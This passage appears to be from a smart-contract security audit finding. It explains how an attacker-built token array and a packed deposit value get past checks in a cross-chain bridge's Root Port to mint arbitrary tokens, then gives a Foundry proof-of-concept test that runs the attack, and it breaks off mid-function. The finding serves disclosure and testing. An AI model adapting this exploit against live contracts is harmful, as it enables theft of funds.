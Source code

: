 The third check is:
```solidity
(_dParams.deposit > 0 && !IPort(_localPortAddress).isUnderlyingToken(_dParams.token, _fromChain))
```
here it’s true `deposit > 0` , however, `_dParams.token` is the second entry `hTokens[1]` of the attack vector’s `hTokens[]` array, therefore, it is a valid underlying address & `isUnderlyingToken(…)` will return true and will be negated by ! which will make the statement false because of &&, therefore, it is bypassed.

Now in the Root Port `bridgeToRoot(...)` will check if the globalAddress is valid and it is since we got it from the valid `hTokens[0]` entry in the constructed attack. Then `_amount - _deposit = 0` , therefore, no tokens will be transferred and finally the critical line if `(_deposit > 0) mint(_recipient, _hToken, _deposit, _fromChainId)` here `_deposit` is the malicious address payload that was packed to bytes and then unpacked and cast to uint256 & `_hToken` is the global address that we got from `hTokens[0]` back in the unpacking, therefore whatever the value of the uint256 representation of the malicious address is will be minted to the attacker.

### Coded POC
Coded PoC
Copy the two functions `testArbitraryMint` & `_prepareAttackVector` in `test/ulysses-omnichain/RootTest.t.sol` and place them in the `RootTest` contract after the setup.

Execute with `forge test --match-test testArbitraryMint -vv`

Result - 800000000 minted tokens for free in attacker’s Virtual Account

```solidity
function testArbitraryMint() public {
        
        // setup function used by developers to add local/global tokens in the system
        testAddLocalTokenArbitrum();

        // set attacker address & mint 1 ether to cover gas cost
        address attacker = address(0xAAAA);
        hevm.deal(attacker, 1 ether);
        
        // get avaxMockAssetHtoken global address that's on the Root
        address globalAddress = rootPort.getGlobalTokenFromLocal(avaxMockAssethToken, avaxChainId);
    
        // prepare attack vector
        bytes memory params = "";
        DepositMultipleInput memory dParams = _prepareAttackVector();
        uint128 remoteExecutionGas = 200_000_000_0;

        console2.log("------------------");
        console2.log("------------------");
        console2.log("ARBITRARY MINT LOG");

        console2.log("Attacker address", attacker);
        console2.log("Avax h token address",avaxMockAssethToken);
        console2.log("Avax underlying address", address(avaxMockAssetToken));

        console2.log("Attacker h token balance", ERC20hTokenBranch(avaxMockAssethToken).balanceOf(attacker));
        console2.log("Attacker underlying balance", avaxMockAssetToken.balanceOf(attacker));

        // execute attack
        hevm.prank(attacker);
        avaxMulticallBridgeAgent.callOutSignedAndBridgeMultiple{value: 0.00005 ether}(params, dParams, remoteExecutionGas);
        
        // get attacker's virtual account address
        address vaccount = address(rootPort.getUserAccount(attacker));

        console2.log("Attacker h token balance avax", ERC20hTokenBranch(avaxMockAssethToken).balanceOf(attacker));        
```